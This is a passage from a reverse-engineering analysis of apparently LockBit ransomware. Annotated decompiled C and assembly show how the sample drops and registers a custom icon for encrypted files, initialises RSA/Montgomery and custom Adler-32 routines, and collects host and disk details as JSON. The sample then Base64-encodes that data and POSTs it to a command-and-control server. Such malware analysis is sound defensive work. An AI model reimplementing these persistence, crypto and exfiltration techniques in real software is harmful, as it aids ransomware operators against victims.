    if (pbVar2 != 0) {
	  // Allocate heap for decompressed data
      uVar8 = allocate_data_processheap_antidbg(DAT_0041ba18 * 8); 
      pbVar3 = (byte *)uVar8;
      if (pbVar3 != 0) {
        // Decompress payload
        uVar8 = some_aplib_decompressor_func(extraout_ECX, ..., pbVar2, pbVar3); 
        local_18 = (int)uVar8;
        if (local_18 != -1) {
          // Get CSIDL_COMMON_APPDATA path (C:\ProgramData)
          (*ShGetSpecialFolderPathW)(0, local_264, 0x23, 0); 
          // Append backslash if missing (C:\ProgramData\)
          add_backslash_unicodestring_missing((int)local_264); 
          // Append custom extension to path (C:\ProgramData\AFfGduKAp)
          (*wcscat)(local_264, param_1 + 2); 
          ... // Traverse the string to get to the end
          psVar7[-1] = 0x2e;              // Add '.'
          psVar7[0]  = 0x69;              // Add 'i'
          psVar7[1]  = 0x63;              // Add 'c'
          psVar7[2]  = 0x6f;              // Add 'o'
          psVar7[3]  = 0;                 // Null terminator
		  // Create .ico file (C:\ProgramData\AFfGduKAp.ico)
          local_10 = (*CreateFileW)(local_264, 0x40000000, 0, 0, 2, 0x80, 0); 
          if (local_10 != -1) {
            // Write decompressed data to file
            iVar4 = (*WriteFile)(local_10, pbVar3, local_18, local_14, 0); 
            if (iVar4 != 0) {
	// Create key HKEY_LOCAL_MACHINE\{param_1} -> HKEY_LOCAL_MACHINE\AFfGduKAp
              iVar4 = (*RegCreateKeyExW)(0x80000000, param_1, ..., &local_c, 0); 
              if (iVar4 == 0) {
                iVar5 = param_1 + 2;
                iVar4 = (*wcslen)(iVar5);
                // Set default value to key name 
                // HKEY_LOCAL_MACHINE\AFfGduKAp -> (Default) = "AFfGduKAp"
                iVar4 = (*RegSetValueExW)(local_c, &local_1c, 0, 1, iVar5, iVar4 * 2 + 2); 
                if (iVar4 == 0) {
                  (*ZwClose)(local_c);
                  (*wcscpy)(local_5c, iVar5); // Copy key name into local buffer
                  ... // Traverse again to end of string
                  // Append \DefaultIcon
                  psVar7[-1] = '\\';
                  psVar7[0] = 'D'; psVar7[1] = 'e'; psVar7[2] = 'f'; psVar7[3] = 'a';
                  psVar7[4] = 'u'; psVar7[5] = 'l'; psVar7[6] = 't'; psVar7[7] = 'I';
                  psVar7[8] = 'c'; psVar7[9] = 'o'; psVar7[10] = 'n'; psVar7[11] = 0;
                  // Create key HKLM\{param_1}\DefaultIcon -> 
                  // HKEY_LOCAL_MACHINE\AFfGduKAp\DefaultIcon
                  iVar4 = (*RegCreateKeyExW)(0x80000000, local_5c, ..., &local_c, 0); 
                  if (iVar4 == 0) {
                    iVar4 = (*wcslen)(local_264);
	                // Set icon path, HKEY_LOCAL_MACHINE\AFfGduKAp\DefaultIcon ->
		            //                (Default) = "C:\ProgramData\AFfGduKAp.ico"
                    iVar4 = (*RegSetValueExW)(local_c, &local_1c, 0, 1, local_264, iVar4 * 2 + 2); 
                    if (iVar4 == 0) {
	                  // Notify shell of icon association change
                      (*ShChangeNotify)(0x8000000, 0x1000, 0, 0); 
                      local_8 = 1; // Success
                    }
                  }
                }
                (*ZwClose)(local_c);
              }
            }
            (*ZwClose)(local_10);
          }
        }
        rtl_freeheap_antidbg_func(pbVar3); // Free decompressed buffer
      }
      rtl_freeheap_antidbg_func(pbVar2); // Free encrypted buffer
    }
  }
  return local_8; // Return success or failure
}
```
.
	The created file is the next one to store the image:
	<div align="center"></div>
	The decompressed data is huge, `0x3AEE` (15086) bytes, so it doesn't fit in a only one screenshot:
	<div align="center"></div>
	If we select the `0x3AEE` (15086) bytes and store it to a file like `lockbit_icon.ico`, we will be able to see the icon that is used for the encrypted files:
	<div align="center"></div>
	<div align="center"></div>
	<div align="center"></div>
	If we put a breakpoint after the function [`WriteFile`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile), we will see the `AFfGduKAp.ico` at `C:\ProgramData`:
	<div align="center"></div>
	Because the program that we are debugging doesn't have enough privileges, and because we were skipping the bypass technique, we will let it infect the computer and see what is found at regedit (Registry Editor). Although the registry key is explicitly created under `HKEY_LOCAL_MACHINE`, Windows reflects file association classes in `HKEY_CLASSES_ROOT`, which is a merged view of `HKLM\Software\Classes` and `HKCU\Software\Classes`. This is why the icon handler appears under `HKEY_CLASSES_ROOT` in the Registry Editor. The `HKEY_CLASSES_ROOT (HKCR)` key contains file name extension associations and COM class registration information, as can be seen, and we will find there the `HKEY_CLASSES_ROOT\AFfGduKAp\DefaultIcon` with the default value of the path of the created icon `C:\ProgramData\AFfGduKAp.ico`:
	<div align="center"></div>
	Based on the functionality of the function, we will rename it to `drop_n_register_custom_icon_for_encrypted_files`:
	<div align="center"></div>
  
- initialise_rsa_montgomery_checksum_context (FUN_0040e2b8):
	This function generates 128 bytes of random data with the function `random_data_128bytes_copyp2_func()` that was loaded dynamically previously and encrypts them using [`SystemFunction040`](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtlencryptmemory). The encrypted data is copied and decrypted in place using [`SystemFunction041`](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtldecryptmemory). Then, the value `1` is transformed into its Montgomery representation modulo a 1024-bit key at `&DAT_00424f70` (the suspected RSA modulus). A custom checksum is computed on the result and stored globally. The function returns `true` if the checksum is valid.
	- `DAT_00425080`: Holds the 128 bytes of random data, encrypted and then decrypted.
	- `DAT_00424ff4`: Receives the decrypted data and is later overwritten with the Montgomery representation of `1 mod DAT_00424f70`.
	- `DAT_00424f70`: Acts as a 1024-bit RSA modulus (never modified), used as the modulus for Montgomery operations and also for checksum obfuscation.
    - `DAT_00424ff0`: Stores the final Adler32-derived checksum of the Montgomery result, possibly used for integrity verification or anti-debugging.
```c
bool FUN_0040e2b8(void)
{
  puVar3 = &DAT_00424f70;       // Pointer to 128-byte key (suspected RSA key)
  puVar2 = &DAT_00425080;       // Pointer to temporary 128-byte buffer
  random_data_128bytes_copyp2_func();// Fill 128 bytes of random data DAT_00425080 
  // Encrypt 128 bytes at &DAT_00425080 using &DAT_00424f70 as key
  (*SystemFunction040)(&DAT_00425080, 0x80, 0); 
  // Copy encrypted data into &DAT_00424ff4 
  copy_p3_bytes_from_p2_to_p1(&DAT_00424ff4, &DAT_00425080, 0x80);
  (*SystemFunction041)(&DAT_00424ff4, 0x80, 0);  // Decrypt buffer in-place
  // Convert 1 into its Montgomery representation modulo the value at &DAT_00424f70
  montgomery_transform_one((uint *)&DAT_00424ff4, (uint *)&DAT_00424f70);
  puVar1 = multi_round_custom_adler32_func(&DAT_00424ff4, 0x80);
  // Compute a custom checksum (likely anti-debug/fingerprint mechanism)
  if (puVar1 != (uint *)0x0) {
    _DAT_00424ff0 = *puVar1;                 // Store checksum result
    rtl_freeheap_antidbg_func(puVar1);       // Free checksum result heap memory
  }
  return puVar1 != (uint *)0x0;   // Return true if checksum was successful
}
```
.
	If we debug it with x32dbg, we will be able to see each value:
		- `DAT_00424f70`: The RSA modulus looks the same as before.
			<div align="center"></div>
		- `DAT_00424ff0`: The adler32 checksum.
			<div align="center"></div>
		- `DAT_00424ff4`: Montgomery representation of `1 mod DAT_00424f70`.
			<div align="center"></div>
		- `DAT_00425080`: The 128 bytes of random data.
			<div align="center"></div>
	If we trace this data, we can see it's later being used as part of a critical section, which is usually for the encryption phase:
	<div align="center"></div>
	Based on this functionality, the function will be renamed to `initialise_rsa_montgomery_checksum_context`:
	<div align="center"></div>
	- random_data_128bytes_copyp2_func (FUN_004056e8):
		The function just executes the dynamically loaded code function `random_data_128bytes_copyp2` at the function `decompress_obfuscated_code_func()`:
```assembly
JMP   dword ptr [random_data_128bytes_copyp2]
```
.
		The function will be renamed to `random_data_128bytes_copyp2_func`:
		<div align="center"></div>
	- copy_p3_bytes_from_p2_to_p1 (FUN_004015c):
		Copies `param_3` bytes from `param_2` to `param_1` using a simple byte-by-byte loop, equivalent to a basic `memcpy` implementation.
```c
void FUN_0040105c(undefined *param_1,undefined *param_2,int param_3)
{ // Copy byte per byte from param_2 to param_1, param_3 bytes
  for (; param_3 != 0; param_3 = param_3 + -1) {
    *param_1 = *param_2;   
    param_2 = param_2 + 1;
    param_1 = param_1 + 1;
  }
  return;
}
```
.
		Based on the functionality, the function will be renamed to `copy_p3_bytes_from_p2_to_p1`:
		<div align="center"></div>
	- montgomery_transform_one (FUN_004017b4):
		This function computes the **Montgomery representation of the constant 1 modulo `param_2`**, applying several reduction steps using a custom Montgomery reduction routine. The result is stored in `param_1`.
```c
void FUN_004017b4(uint *param_1, uint *param_2)
{
  puVar4 = local_90;
  // Initialize local_90 to all zeros except for the first word
  local_90[1] = 0;
  ...
  local_90[0x1f] = 0;
  local_90[0] = 1; // Set value to 1, number "1" in big integer format
  // Perform three consecutive Montgomery-based modular reductions:
  // Apply a series of modular reductions to transform '1' w/ param_1 and param_2
  modular_exp_w_montgomery_reduction(puVar4, auStack_120, param_2, param_1);
  // Perform a second reduction without additional operand
  modular_exp_w_montgomery_reduction(puVar4, auStack_120, param_2, (uint *)0x0);
  // Perform a third reduction with param_1 again
  modular_exp_w_montgomery_reduction(puVar4, auStack_120, param_2, param_1);
  // memcpy(param_1, puVar4, 128)
  // Copy the final result from puVar4 into param_1 (32 words, 1024 bits)
  iVar5 = 8; 
  do {
    uVar1 = puVar4[1];            // Copy word 1
    uVar2 = puVar4[2];            // Copy word 2
    uVar3 = puVar4[3];            // Copy word 3
    *param_1 = *puVar4;           // Copy word 0
    param_1[1] = uVar1;
    param_1[2] = uVar2;
    param_1[3] = uVar3;
    puVar4 = puVar4 + 4;          // Move to next 4-word block
    param_1 = param_1 + 4;
    iVar5 = iVar5 + -1;           // Decrease block counter
  } while (iVar5 != 0);           // Repeat 8 times to copy full 1024-bit result
  return;
}
```
.
		Based on the functionality, the function will be renamed to `montgomery_transform_one`:
		<div align="center"></div>
		- modular_exp_w_montgomery_reduction (FUN_00401938):
			 The function performs a sequence of modular reductions using a custom low-level reduction function (`montgomery_reduction_func`), repeatedly copying intermediate values between buffers. This structure and behaviour are characteristic of **modular exponentiation**, where intermediate results are repeatedly squared and reduced.
			 According to [`RFC 8017 – RSA Cryptography Specifications Version 2.2`](https://datatracker.ietf.org/doc/html/rfc8017), modular exponentiation is performed by iteratively squaring and reducing the result modulo the RSA modulus. The repeated calls to the Montgomery reduction routine and memory copying in this function suggest a custom implementation of this process, likely optimised for fixed-size operands (e.g., 1024-bit blocks).
```c
void FUN_00401938(uint *param_1,uint *param_2,uint *param_3,uint *param_4)
{ // memcpy(param_2, param_1, 128)
  iVar4 = 8;    // Loop counter: 8 blocks of 4 words (total 32 words = 1024 bits)
  puVar5 = param_1; // Source pointer: param_1 contains current working value
  puVar6 = param_2; // Destination pointer: param_2 will receive a copy
  do {
    uVar1 = puVar5[1];            // Copy word 1
    uVar2 = puVar5[2];            // Copy word 2
    uVar3 = puVar5[3];            // Copy word 3
    *puVar6 = *puVar5;            // Copy word 0
    puVar6[1] = uVar1;
    puVar6[2] = uVar2;
    puVar6[3] = uVar3;            // Now 4 words are copied
    puVar5 = puVar5 + 4;          // Move to next 4-word block
    puVar6 = puVar6 + 4;
    iVar4 = iVar4 + -1;           // Decrease block counter
  } while (iVar4 != 0);           // Repeat 8 times => copies 32 words
  // First Montgomery-style reduction: param_1 = param_1 mod param_3
  montgomery_reduction_func(param_1,param_2,param_3);  
  ... // Copy param_1 to param_2 as before - memcpy(param_2, param_1, 128)
  montgomery_reduction_func(param_1,param_2,param_3);  // Second modular reduction
  ... // Copy param_1 to param_2 as before - memcpy(param_2, param_1, 128)
  montgomery_reduction_func(param_1,param_2,param_3);  // Third modular reduction
  ... // Copy param_1 to param_2 as before - memcpy(param_2, param_1, 128)
  montgomery_reduction_func(param_1,param_2,param_3);  // Fourth modular reduction
  ... // Copy param_1 to param_2 as before - memcpy(param_2, param_1, 128)
  montgomery_reduction_func(param_1,param_2,param_3);  // Fifth modular reduction
  ... // Copy param_1 to param_2 as before - memcpy(param_2, param_1, 128)
  montgomery_reduction_func(param_1,param_2,param_3);  // Sixth modular reduction
  ... // Copy param_1 to param_2 as before - memcpy(param_2, param_1, 128)
  montgomery_reduction_funcparam_1,param_2,param_3);   // Seventh modular reduction
  ... // Copy param_1 to param_2 as before - memcpy(param_2, param_1, 128)
  montgomery_reduction_func(param_1,param_2,param_3);  // Eighth modular reduction
  if (param_4 != (uint *)0x0) {// Optional final reduction if param_4 is provided
    ... // Copy param_1 to param_2 as before - memcpy(param_2, param_1, 128)
    montgomery_reduction_func(param_1,param_4,param_3);//Final reduction w/ param_4
  }
  return;
}
```
.
			Based on the functionality, the function will be renamed to `modular_exp_w_montgomery_reduction`:
			<div align="center"></div>
			- montgomery_reduction_func (FUN_00401a9c):
				This function performs modular reduction on a large multi-precision integer as part of an RSA cryptographic routine, the modular exponentiation. We can see based on the assembly code, comparing it to the [`Montgomery Reduction (REDC) code from OpenSSL GitHub`](https://github.com/openssl/openssl/blob/master/crypto/bn/bn_mont.c), that the division is done by rotating with carry:
```asembly
; FUN_00401a9c
MOV  [EBP + local_9c],0x400      ; 1024 iterations
...
RCL  [EAX + offset],0x1          ; Rotate with carry each dword in buffer
```

```c
// bn_from_montgomery_word
ap = &(r->d[nl]);
carry -= bn_sub_words(rp, ap, np, nl);
```
.
				Also, this step is the same:
```assembly
; FUN_00401a9c
SBB        [EAX + 0x7c],EDI
JNC        LAB_0040206c      ; If no borrow => continue
...
ADC        [EAX + 0x7c],EDI  ; restore it
```

```c
// bn_from_montgomery_word
if (t >= N)
    return t - N
else
    return t
```
.
				This is the function:
```assembly
	...
    LEA        EAX=>local_94,[EBP + 0xffffff70]  ; Point to local buffer
    ADD        EAX,0xf
    AND        EAX,0xfffffff0    ; Align to 16-byte boundary
    MOV        [EBP + local_98],EAX
    ; Zero-out the aligned buffer
    MOV        EAX,[EBP + local_98]
    MOV        [EAX],0x0
    MOV        [EAX + 0x04],0x0
    ...
    MOV        [EAX + 0x7c],0x0
    ; Initialize counter to 1024 iterations
    MOV        [EBP + local_9c],0x400

LAB_00401ba9:
    MOV        EAX,[EBP + local_98]
    CLC                          ; Clear carry flag
    ; RCL: Rotate all 128 DWORDs left through carry (big number shift left)
    RCL        [EAX],0x1
    RCL        [EAX + 0x04],0x1
    ...
    RCL        [EAX + 0x7c],0x1
    MOV        EAX,[EBP + local_98]
    MOV        ECX,[EBP + param_3]
    CLC
    ; Load 512-bit value from param_3 into registers
    ; Then subtract param_3 from buffer using SBB
    MOV        EDX,[ECX]
    MOV        EBX,[ECX + 0x4]
    ...
    SBB        [EAX + 0x7c],EDI
    JNC        LAB_00401da5      ; If no borrow => skip addition
    ; If borrow happened, add param_3 back to buffer
    MOV        EAX,[EBP + local_98]
    MOV        ECX,[EBP + param_3]
    CLC
    ...
    ADC        [EAX + 0x7c],EDI
LAB_00401da5:
    ; Rotate param_1 left through carry (same big shift)
    MOV        EAX,[EBP + param_1]
    CLC
    RCL        [EAX],0x1
    ...
    RCL        [EAX + 0x7c],0x1
    JNC        LAB_00401ed6      ; If no carry, skip extra addition
    ; If carry happened, add param_2 to buffer
    MOV        EAX,[EBP + local_98]
    MOV        ECX,[EBP + param_2]
    CLC
    ...
    ADC        [EAX + 0x7c],EDI
LAB_00401ed6:
    ; Subtract param_3 again from buffer
    MOV        EAX,[EBP + local_98]
    MOV        ECX,[EBP + param_3]
    CLC
    ...
    SBB        [EAX + 0x7c],EDI
    JNC        LAB_0040206c      ; If no borrow => continue
    ; If borrow occurred again, add param_3 back
    MOV        EAX,[EBP + local_98]
    MOV        ECX,[EBP + param_3]
    CLC
    ...
    ADC        [EAX + 0x7c],EDI
LAB_0040206c:
    ; Decrement counter
    DEC        [EBP + local_9c]
    CMP        [EBP + local_9c],0x0
    JNZ        LAB_0040207d
    JMP        LAB_00402082
LAB_0040207d:
    JMP        LAB_00401ba9      ; Loop again
LAB_00402082:
    ; Copy final buffer result back to param_1 using SIMD (128-bit chunks)
    MOV        EAX,[EBP + local_98]
    MOV        EDX,[EBP + param_1]
    MOV        ECX,0x8           ; 8 iterations of 16 bytes
LAB_00402090:
    MOVDQA     XMM0,[EAX]
    MOVDQA     [EDX],XMM0
    ADD        EAX,0x10
    ADD        EDX,0x10
    DEC        ECX
    TEST       ECX,ECX
    JNZ        LAB_00402090
    ...
    RET        0xc
```
.
				Based on the functionality, the function will be renamed to `montgomery_reduction_func`:
				<div align="center"></div>
	- multi_round_custom_adler32_func (FUN_0040e350):
		The function takes a buffer, `param_1`, and its length, `param_2` (`0x80`), performs three rounds of a **custom Adler-32 checksum**, each seeded with a **byte-swapped version of the previous result**, and returns the final checksum in a dynamically allocated 4-byte memory block. 
```c
uint * FUN_0040e350(byte *param_1, uint param_2)
{
    puVar2 = (uint *)0x0;    // Default return value is NULL
    if ((param_2 != 0) && (param_1 != (byte *)0x0)) {  // Validate input
        puVar2 = (uint *)allocate_data_processheap_antidbg(4);  // Allocate 4 bytes
        if (puVar2 != (uint *)0x0) {         // Check if allocation was successful
            // First hash using a fixed seed (0x00d6917a)
            uVar1 = custom_adler32_checksum_func(param_1, param_2, 0xd6917a);
            // Byte-swap uVar1: swap each byte to reverse order
            uVar1 = custom_adler32_checksum_func(
                        param_1,
                        param_2,
                        uVar1 >> 0x18                // byte 0 (MSB) -> byte 3
                        | (uVar1 & 0xff0000) >> 8    // byte 1 -> byte 2
                        | (uVar1 & 0xff00) << 8      // byte 2 -> byte 1
                        | uVar1 << 0x18              // byte 3 (LSB) -> byte 0
                    );
            // Repeat: swap result again and hash a third time
            uVar1 = custom_adler32_checksum_func(param_1, param_2, uVar1 >> 0x18 | (uVar1 & 0xff0000) >> 8 | (uVar1 & 0xff00) << 8 | uVar1 << 0x18);
            // Final byte-swap of the last result and store in allocated memory
            *puVar2 = uVar1 >> 0x18 | (uVar1 & 0xff0000) >> 8 | (uVar1 & 0xff00) << 8 | uVar1 << 0x18;
        }
    }
    return puVar2;   // Return pointer to final 32-bit checksum (or NULL if failed)
}
```
.
		Based on the functionality, the function will be renamed to `multi_round_custom_adler32_func`:
		<div align="center"></div>
		- custom_adler32_checksum_func (FUN_00401264):
			This function is a variant of the Adler-32 checksum, used for lightweight data integrity. If we look at the PowerShell GitHub documentation of [`adler32.c`](https://github.com/PowerShell/ZLib/blob/master/adler32.c) the modulo is 65521, exactly the same, and the `MOD` operation is done with that same modulo.
```c
#define BASE 65521U     /* largest prime smaller than 65536 */
#define MOD(a) a %= BASE
```
.
			Also splits the initial state into two 16-bit parts.
```c
// In zlib:
sum2 = (adler >> 16) & 0xffff;
adler &= 0xffff;
// In FUN_00401264:
uVar1 = param_3 & 0xffff;     // sum1 (adler)
uVar2 = param_3 >> 0x10;      // sum2
```
.
			Applies the `MOD` function, which is the same as we have seen in `#define`.
```c
// In zlib:
MOD(adler);
MOD(sum2);
// In FUN_00401264:
uVar1 = uVar1 % 0x1000f;
uVar2 = uVar2 % 0x1000f;
```
.
			The function's functionality is the following.
```c
uint FUN_00401264(byte *param_1, uint param_2, uint param_3)
{   // Split the initial state into two 16-bit accumulators
    uVar1 = param_3 & 0xffff;     // lower 16 bits: adler (sum1)
    uVar2 = param_3 >> 0x10;      // upper 16 bits: sum2
    // Main loop: process data in 0xFA1 (4001) byte chunks
    while (param_2 != 0) {
        uVar3 = 0xfa1;            // maximum block size per iteration
        if (param_2 < 0xfa1) {
            uVar3 = param_2;      // handle last smaller block
        }
        param_2 = param_2 - uVar3;
        // Process each byte in the current block
        do {
            uVar1 = uVar1 + *param_1;   // add current byte to sum1
            param_1 = param_1 + 1;      // advance pointer
            uVar2 = uVar2 + uVar1;      // add new sum1 to sum2
            uVar3 = uVar3 - 1;          // decrement block byte counter
        } while (uVar3 != 0);
        // Apply modulo 65521 (largest prime < 2^16, used in Adler-32)
        uVar1 = uVar1 % 0x1000f;
        uVar2 = uVar2 % 0x1000f;
    }
    // Combine the two sums into a single 32-bit value and XOR with suspected 
    // RSA key, slightly different to standard Adler-32
    return uVar1 + uVar2 * 0x10000 ^ _DAT_00424f70;
}
```
.
			The return value is distinct from the original Adler-32 function, so it will be renamed to `custom_adler32_checksum_func`:
			<div align="center"></div>
      
So at the end of this huge function is set the default icon, decompressed and deobfuscated from memory in the register for the custom unique extension `AFfGduKAp` with `drop_n_register_custom_icon_for_encrypted_files()`. And then it initialises some cryptographic data needed for the upcoming file encryption of the files with `initialise_rsa_montgomery_checksum_context()`.
<div align="center"></div>

Based on all the functions and the whole functionality that it achieves, the function will be renamed to `setup_environment_and_escalate_preexploit`:
<div align="center"></div>

##### Function  (FUN_00417458)
At this function will continue the encryption of the files and the system exploitation, which will be out of scope, as now there is less focus on technique evasion, as it has elevated permissions at this point and hasn't attempted any anti-debug technique since long ago.
It can be seen in the first executed function when it has no arguments, which will be the first instance:
<div align="center"></div>

- FUN_00409bb0:
	There, we can observe that a mutex is created, which allows multiple threads to encrypt different files or exploit various networks.:
<div align="center"></div>

<div align="center"></div>

<div align="center"></div>

- FUN_00417034:
	At this function there are multiple functions, but an interesting one is `FUN_00409c64()`:
```c
void FUN_00417034(void)
{
  ...
  iVar1 = (*GetSystemMetrics)(0x43);
  if (iVar1 == 0) {
    ...
    if ((DAT_00425131 != '\0') && (DAT_00425168 != 0)) {
      uVar2 = FUN_00409c64(DAT_00425168,DAT_0042515c,DAT_00425160,DAT_00425164,0);
      (*WaitForSingleObject)(uVar2,0xffffffff);
      (*ZwClose)(uVar2);
    }
    ...
  }
  return;
}
```
.
	- Thread at address `0x40d88c`:
		The function first executes `FUN_0040cd04()`, which gathers host information in a JSON format:
		<div align="center"></div>
		With `FUN_0040cedc()` generates a random string `d1d3590c93d15f8c86dee56990bb7eac`:
		<div align="center"></div>
		And then deobfuscates with `decode_n_blocks_w_mask_func()` two blocks of encoded data `"%u.%u"`:
		<div align="center"></div>
		And then it decrypts the payload at `DAT_0041d23c`, which confirms that this function will exfiltrate data to the command and control (C&C) server, which will be needed for the malware to identify this machine after the infection to manage the decryption after the payment:
```json
{
  "bot_version": "%s",
  "bot_id": "%s",
  "bot_company": "%.8x%.8x%.8x%.8x",
  %s
}
```
.
		<div align="center"></div>
		After that, with [`sprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170), it will merge all the data to exfiltrate it:
```json
{
  "bot_version": "1.0",                        ← Malware/BOT version
  "bot_id": "d1d3590c93d15f8c86dee56990bb7eac",← Unique BOT ID (custom GUID hash)
  "bot_company": "000000000000000000000000",   ← Affiliate ID data
  "host_hostname": "DESKTOP-EBNIISE",          ← Hostname
  "host_user": "ANON",                         ← Username
  "host_os": "Windows 10 Pro",                 ← Operating System
  "host_domain": "WORKGROUP",                  ← Domain or workgroup
  "host_arch": "x64",                          ← Architecture (x64/x86)
  "host_lang": "en-GB",                        ← Regional language
  "disks_info": [
    {
      "disk_name": "C",
      "disk_size": "60832",                    ← Total size (in MB)
      "free_size": "9275"                      ← Free size
    }
  ]
}
```
.
		<div align="center"></div>
		Then the data will be exfiltrated to the C&C with `FUN_0040cfcc()`.
		- FUN_0040cd04:
			Deobfuscates the payload of `DAT_0041ce8a`, which has the next format, which seems to gather data from the user in a JSON format. The hostname, username, operating system, domain, architecture, and language, plus extra data.
```json
"host_hostname":"%s",
"host_user":"%s",
"host_os":"%s",
"host_domain":"%s",
"host_arch":"%s",
"host_lang":"%s",
%s
```
.
			<div align="center"></div>
			- FUN_0040c658:
				Deobfuscates more payload data from `DAT_0041cf80` and `DAT_0041cffe`.
				At `DAT_0041cf80` we can see it adds content to the previous JSON that gathered data from the user by adding the name of the disks, disk size, and the free size.
```json
{
"disk_name":"%s",
"disk_size":"%u",
"free_size":"%u"
}
```
.
				<div align="center"></div>
				At `DAT_0041cffe` it also deobfuscates more data, which will be the data container of the previous deobfuscated JSON object data.
```JSON
"disks_info":[
%s
]
```
.
				<div align="center"></div>
			- FUN_0040c928:
				At this function, it deobfuscates more data of registry keys and values. If we manually set the `EIP`, it will fail, as we are forcing the program to work on a different logic flow, but if we manually deobfuscate the code, we can see the subkey in the registry it attempts to enter is [`Control Panel/International`](https://renenyffenegger.ch/notes/Windows/registry/tree/HKEY_CURRENT_USER/Control-Panel/International/index)
				<div align="center"></div>
				Then it opens the key at [`HKEY_USERS`](https://doxygen.reactos.org/d0/d77/winreg_8h_source.html#l00010)(`0x80000003`), specifically at `HKEY_USERS/Control Panel/International` with [`RegCreateKeyExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexw).
```c
// 0x80000003 --> HKEY_USERS
h = (*RegCreateKeyExW)(0x80000003, local_264, 0, 0, 0, 0x20119, 0, &local_c, 0);
```
.
				The next value that it deobfuscates is `"LocaleName"`, which is a value that will be retrieved from `HKEY_USERS/Control Panel/International`, which contains the local region, and gets its value with [`RegQueryValueExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regqueryvalueexw):
				<div align="center"></div>
        
```c
// local_24 = HKEY_USERS/Control Panel/International -> LocaleName
iVar1 = (*RegQueryValueExW)(local_c,local_5c,0,&local_10,local_24,&local_14);
```
.
				Then if the previous `LocaleName` didn't exist, it tries with `sLanguage`.
				<div align="center"></div>
			- FUN_0040cafc:
				 [`NetGetJoinInformation`](https://learn.microsoft.com/en-us/windows/win32/api/lmjoin/nf-lmjoin-netgetjoininformation) is used to obtain information about whether a machine is joined to a domain or a workgroup.
			- FUN_0040cb20:
				The function gets a key in the registry with [`RegCreateKeyExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexw) at  [`HKEY_LOCAL_MACHINE`](https://doxygen.reactos.org/d0/d77/winreg_8h_source.html#l00010)(`0x80000002`), specifically at `HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion`, to retrieve the OS version.
```c
// 0x80000002 -> HKEY_LOCAL_MACHINE
h = (*RegCreateKeyExW)(0x80000002,local_70,0,0,0,0x20119,0,local_70+0x19,0);
```
.
				<div align="center"></div>
				Then with [`RegQueryValueExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regqueryvalueexw) obtains the value of the next deobfuscated data, which is `"ProductName"`:
				<div align="center"></div>
			After all the functions, it retrieves data of the host in a JSON format, as can be seen in x32dbg:
			<div align="center"></div>
			<div align="center"></div>
      
```json
{
  "host_hostname": "DESKTOP-EBNIISE",
  "host_user": "ANON",
  "host_os": "Windows 10 Pro",
  "host_domain": "WORKGROUP",
  "host_arch": "x64",
  "host_lang": "en-GB",
  "disks_info": [
    {
      "disk_name": "C",
      "disk_size": "60832",
      "free_size": "9311"
    }
  ]
}
```
.
		- FUN_0040cfcc:
			The function encodes in Base64 with `base64_encoder_func()` the data to be exfiltrated, which is `S9R5WLgse=sy3dCbF&8BHb7n=K7YFpD93JTR&IMz=FZTdPf4feFsjlDKi0jSe&WCdwX=LlfoOxzIik3kUFpEkjqj2oyHXBZkJsAYM6Bbo6oSh5wFEhnx5tsJOaMKkvkniXDdbXvzb3NDQ6ZmmbXIMdmWM5yDhIvjvP7NWXXUa8D5Spb3FovnYpStP`:
			<div align="center"></div>
			A random long string;
			<div align="center"></div>
			Another encoded Base64 data: 
			<div align="center"></div>
			Then it decrypts `"Gecko/20100101"`, which is the user agent that indicates is based in Gecko, based on [`Mozilla Documentation`](https://developer.mozilla.org/es/docs/Web/HTTP/Reference/Headers/User-Agent):
			<div align="center"></div>
			Then deobfuscates `"POST"`, which confirms that it is going to send a post of the data gathered encoded in Base64 to the C&C server:
			<div align="center"></div>
			Communication between the C&C server and host is done with the functions  [`InternetConnectW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetconnectw), [`HttpOpenRequestW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-httpopenrequestw), [`InternetQueryOptionW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetqueryoptionw), [`InternetSetOptionW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetsetoptionw), [`HttpSendRequestW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-httpsendrequestw),  [`InternetCloseHandle`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetclosehandle), [`HttpQueryInfoW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-httpqueryinfow), [`InternetQueryDataAvailable`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetquerydataavailable), and [`InternetReadFile`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile).
